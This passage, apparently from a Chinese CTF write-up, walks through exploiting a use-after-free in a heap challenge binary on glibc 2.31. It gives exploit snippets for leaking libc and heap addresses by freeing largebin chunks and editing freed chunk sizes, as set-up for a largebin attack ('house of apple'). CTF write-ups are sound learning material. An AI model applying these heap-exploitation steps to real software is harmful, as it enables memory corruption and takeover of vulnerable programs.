 其中 add 功能只能 add largebin chunk

free 功能里有 UAF 漏洞

```bash
if ( index <= 0x20 && pwn_ptr[index] )
      free(pwn_ptr[index]);
```

并且开启了沙箱

### 攻击流程

largebin chunk 的优点就是泄露 libc 较为简单

free 掉就可以泄露了，要注意防止合并

```bash
add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
#chunk0+chunk1 = heapbase --> heapbase+0x1000
delete(0)
show(0)
```

[![](assets/1701606552-b7b106092113cdda671af9af43507a1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121159-480c98fc-88ed-1.png)

然后由于 apple 需要利用 largebin attack，所以还要泄露 heap\_base（选 2.31 不用考虑 safe-linking 的 12 异或，图个方便）

先把 chunk1 free 掉，让两个 chunk 都合并到 topchunk 中，然后再 add 3 个 chunk

```bash
delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')
```

利用 edit after free 修改 size 让 chunk free 之后进入到 tcachebin 中，show 出 heap 地址

```bash
edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)
```
